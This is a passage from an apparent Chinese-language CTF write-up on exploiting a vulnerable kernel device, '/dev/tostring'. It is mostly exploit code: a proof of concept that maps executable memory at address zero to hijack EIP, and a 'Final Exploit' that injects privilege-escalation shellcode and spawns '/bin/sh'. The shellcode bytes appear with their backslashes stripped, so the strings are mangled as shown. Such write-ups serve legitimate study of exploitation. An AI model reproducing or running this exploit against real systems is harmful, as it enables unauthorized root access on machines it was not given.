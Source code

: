 预期情况下，程序应当依次执行H、D、S、N四个命令，并在最后写入”AAAABBBB”。

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-17-151755.png)

发现逻辑正确，那么我们尝试劫持EIP，发送以下PoC：

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;

char payload[] = "xe9xeaxbexadx0b"; // jmp 0xbadbeef

int main(void){
    char Get_shell[20] ; 
    mmap(0, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/dev/tostring",2);
    write(fd,"**********S",11);
    read(fd,Get_shell,sizeof(Get_shell));
    return 0;
}

//gcc -m32 -static -o Exploit Exploit.c
```

成功劫持，那么我们只需要替换掉Shellcode即可完成提权。

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-17-154020.png)

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;

char payload[] = "x31xc0xe8xe9x11x07xc1xe8x74x0ex07xc1xc3";

int main(void){
    char Get_shell[20] ; 
    mmap(0, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/dev/tostring",2);
    write(fd,"**********S",11);
    read(fd,Get_shell,sizeof(Get_shell));
    system("/bin/sh");
    return 0;
}

```